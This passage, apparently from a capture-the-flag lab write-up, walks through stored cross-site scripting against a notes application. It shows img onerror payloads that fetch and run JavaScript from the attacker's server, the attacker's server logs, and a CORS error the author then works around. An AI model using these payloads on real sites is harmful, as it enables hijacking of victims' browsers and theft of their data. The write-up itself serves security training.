     
    
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="fetch('http://10.10.14.6/xss.js');" />
    

On logging in, submitting a note and viewing it, there’s a request at my
server:

    
    
    10.10.14.6 - - [19/Jul/2023 18:20:40] code 404, message File not found
    10.10.14.6 - - [19/Jul/2023 18:20:40] "GET /xss.js HTTP/1.1" 404 -
    

I’ll create this file with some simple JavaScript in it:

    
    
    oxdf@hacky$ echo "alert(1);" > xss.js 
    

On refreshing, it gets the file just file:

    
    
    10.10.14.6 - - [19/Jul/2023 18:22:58] "GET /xss.js HTTP/1.1" 200 -
    

The next step is to try to use this file to do something. I’ll create this
payload that will try to write the contents to the console:

    
    
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="fetch('http://10.10.14.6/xss.js').then(r => r.text()).then(t => {console.log(t)});" />
    

On logging out, registering, logging back in, and creating a note, there’s a
hit at my server:

    
    
    10.10.14.6 - - [19/Jul/2023 18:25:06] "GET /xss.js HTTP/1.1" 200 -
    

Unfortunately, the contents aren’t printed to the console, but there’s an
error message:

![image-20230719182632064](../img/image-20230719182632064.png)

Despite the fact that it did fetch the file from my webserver, it then failed
and blocked access to the results because of CORS. [This
page](https://developer.mozilla.org/en-
US/docs/Web/HTTP/CORS/Errors/CORSMissingAllowOrigin) talks about the error and
what’s happening. It’s actually an issue that can be fixed at my server.

> If the server is under your control, add the origin of the requesting site
> to the set of domains permitted access by adding it to the `Access-Control-
> Allow-Origin` header’s value.
>
> For example, to allow a site at `https://example.com` to access the resource
> using CORS, the header should be:
>  
>  
>     Access-Control-Allow-Origin: https://example.com
>  
>
> You can also configure a site to allow any site to access it by using the
> `*` wildcard.
